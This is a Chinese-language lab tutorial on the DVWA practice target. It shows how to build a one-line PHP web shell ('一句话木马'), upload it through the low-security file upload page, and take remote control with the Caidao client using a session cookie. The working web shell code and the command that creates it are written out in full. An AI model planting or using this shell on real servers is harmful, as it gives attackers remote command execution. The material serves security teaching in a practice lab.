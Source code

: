 
# 一、菜刀
本文以dvwa靶场做示范。  

## 0.目标  
菜刀请自行百度或GitHub搜索获取。  
学完本文仅需掌握：  
1. 使用菜刀连接需要身份认证的木马;  
2. 理解Cookie的作用；  

## 1.菜刀使用方法
##### a. 进入文件上传靶场，并将难度设置为low：  
账户信息：admin/password  
![Alt](picture/0_1.jpg)  
##### b. 百度“一句话木马”：
![Alt](picture/0_2.jpg)  
并找到可执行木马的源码，对于dvwa靶场则为PHP木马：  
![Alt](picture/0_3.jpg)  
复制代码，并制作木马文件：  
> 一句话木马  
> <?php @eval($_post['attack']);?>  

执行指令[^1]  
> echo '<?php @eval($_post["attack"]);?>' > tmp.php

![Alt](picture/0_4.jpg)  
##### c. 进入文件上传界面，上传制作好的木马：  
点击选择文件  
![Alt](picture/0_5.jpg)  
选中制作的木马文件tmp.php  
![Alt](picture/0_6.jpg)  
点击upload上传  
![Alt](picture/0_7.jpg)  
返回结果如下  
![Alt](picture/0_8.jpg)  
证明文件上传成功  
尝试访问上传成功的文件  
http://192.168.56.101/dvwa/hackable/uploads/tmp.php[^2]  
![Alt](picture/0_9.jpg)  
确定未返回404，说明文件可访问。  
##### d. 使用菜刀访问上传木马：
d1. 打开菜刀工具  
![Alt](picture/0_10.jpg)  
d2.添加远程连接任务  
右键添加任务  
![Alt](picture/0_11.jpg)  
地址填入木马地址，密码为attack[^3]
![Alt](picture/0_12.jpg)  
点击编辑确定，可以看见主界面如下
![Alt](picture/0_13.jpg)  
d3. 任务添加cookie  
在浏览器中按F12，进入调试界面，并进入Network  
![Alt](picture/0_14.jpg)  
刷新页面，在请求报文头中获取cookie值
![Alt](picture/0_15.jpg)  
当前cookie值为：
> Cookie: security=low; PHPSESSID=31ei3lo48uu5v6i2u85ru1t3v0  

回到菜刀中，选中任务右键，然后选择设置  
![Alt](picture/0_16.jpg)  
进入设置界面后，点击请求头，并将刚获取的cookie值写入  
![Alt](picture/0_17.jpg)  
点击确定，出现如下提示，则设置成功，然后退出设置窗口
![Alt](picture/0_18.jpg)  
##### e. 连接木马
双击任务即可，返回如下则证明远程连接成功  
![Alt](picture/0_19.jpg)  
也可以在列表中选中任务右键，并选择“模拟终端”  
![Alt](picture/0_20.jpg)  
在模拟终端中可以尝试执行系统命令，验证远控成功
![Alt](picture/0_21.jpg)  



## 2.Cookie的作用
在上一节中，菜刀能连接到木马的关键操作是添加cookie。在系统做了良好权限控制的场景中，如果没有添加身份认证信息，就不能访问到远程连接文件，其中cookie就是用户身份认证的一种方式。  
如果上传了木马后，直接用工具连接出现了连接失败的情况，则需要考虑添加请求头信息，其中最为关键的是：cookie、session、token，根据不同的情况，也可能需要添加其他的请求头信息。  
更多关于cookie、session、token的知识，请自行百度[^4]。

-------------
推广：
欢迎加入QQ技术讨论群：736342355


[^1]: 直接创建一个PHP文件，并将代码写入PHP文件中保存即可
[^2]: 上图返回结果中的 `..\` 表示返回上级目录，所以木马文件则删除最低两级目录，然后拼接hackable/uploads/tmp.php
[^3]: 上传木马中设置的POST参数为attack，所以此处添加密码为attack，具体原因后期博文会具体讲解
[^4]: 参考博文:<https://www.cnblogs.com/moyand/p/9047978.html>